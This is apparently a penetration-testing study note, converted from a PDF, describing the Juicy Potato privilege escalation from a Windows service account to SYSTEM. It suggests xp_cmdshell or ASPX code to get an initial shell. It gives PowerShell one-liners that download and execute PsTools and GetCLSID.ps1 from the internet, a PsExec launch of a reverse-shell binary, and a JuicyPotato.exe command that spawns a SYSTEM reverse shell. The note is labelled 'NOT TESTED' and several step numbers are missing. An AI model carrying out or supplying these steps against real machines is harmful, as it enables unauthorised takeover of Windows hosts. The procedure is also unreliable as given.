

Juicy Potato: RPC + NTLM relay
WARNING: NOT
TESTED
Prerequisites
•
OS Prerequisite: ◇ Windows OS < Windows 10 1809
◇ Windows OS <
Windows Server 2019
•
User privileges prerequisite:We need to be able to spawn a shell
with Service Account privilege.
This because Service Accounts have “SeImpersonatePrivilege” privilege
enabled
How get a Service Account's shell? ◇ MSSQL
Injection → use xp_cmdshell procedure that run command as the SQL Server service account
◇ Since IIS runs with
the permission of a Service Account, if we are able to run ASPX code on the Web Server, we can get a reverse shell
running as Service account
Vulnerability:• This is a Privilege Escalation from a
Windows Service Accounts to
NT AUTHORITY\SYSTEM•
Service
accounts can be given special privileges in order for them to run their services, and cannot be logged into
directly. Multiple problems have been found with service accounts, making them easier to escalate privileges
with.
• Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user. This was
possible because Service Accounts usually have the “SeImpersonatePrivilege” privilege
enabled.
GitHub:
https://github.com/ohpe/juicy-potatoJuicy Potato is
Rotten
Potato on steroids. It allows a more flexible way to exploit the vulnerability.
Advantages
over Rotten Potato exploit• We do not need to have a meterpreter shell
• We can specify our
COM(communication port) server listen port with CLSID
◇ CLSID is a globally unique identifier that identifies
a COM class object. It is an identifier like UUID.
example
with Windows 7 (running with Administrative shell
only for demonstration)
1. Copy PSExec64.exe and the
JuicyPotato.exe exploit executable over to Windows.
2. Start a listener on the attacker machine
4. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the
LOCAL SERVICE account:
"LOCAL SERVICE" user account is a built in service account in windows
PS> (new-object System.Net.WebClient).DownloadFile("https://download.sysinternals.com/files/PSTools.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";md $env:userprofile\desktop\files; $DestinationFolder = "$env:userprofile\desktop\files";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\files\PSExec.exe -accepteula -i -u 'nt authority\local service' 'C:\PrivEsc\reverse.exe'"; Remove-Item -Path "$env:userprofile\desktop\files" -recurse; Remove-Item -Path "$env:userprofile\desktop\file.zip";
5. Now on the listener of the Attacker we should have a shell as
LOCAL SERVICE account
C:\> whoami
C:\> whoami /priv #to check privileges
we need one of the following privilege:
◇ SeAssignPrimaryPrivilege
(SeAssignPrimaryTokenPrivilege)
◇ SeImpersonatePrivilege
8. Start a new listener always on the attacker machine
9. Run the Juicy Potato exploit to trigger a reverse shell running with SYSTEM privileges
C:\> .\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
If CLSID {03ca98d6-ff5d-49b8-abc6-03dd84127020} doesn’t work:
◇ check this list for different
Windows OSs:
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
◇ or execute GetCLSID.ps1 PowerShell script to get the CLSID
PS> (new-object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/ohpe/juicy-potato/master/CLSID/GetCLSID.ps1", "$env:userprofile\desktop\GetCLSID.ps1");Invoke-Expression "$env:userprofile\desktop\GetCLSID.ps1";Remove-Item -Path "$env:userprofile\desktop\GetCLSID.ps1";